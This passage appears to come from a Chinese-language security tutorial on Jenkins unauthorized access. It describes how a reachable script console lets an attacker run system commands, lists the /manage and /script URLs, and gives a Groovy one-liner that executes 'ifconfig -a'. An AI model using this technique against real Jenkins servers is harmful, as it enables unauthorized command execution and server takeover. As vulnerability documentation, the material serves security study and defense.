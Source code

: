 ## 3.1 漏洞描述

默认情况下 Jenkins 面板中用户可以选择执行脚本界面来操作一些系统层命令，攻击者可通过未授权访问漏洞或者暴力破解用户密码等进脚本执行界面从而获取服务器权限。  

## 3.2 漏洞利用

1、Jenkins 未授权访问可执行命令  

http://www.secpulse.com:8080/manage  
http://www.secpulse.com:8080/script  
![](../pictures/notauthority3.png)   


`println "ifconfig -a".execute().text` 执行一些系统命令  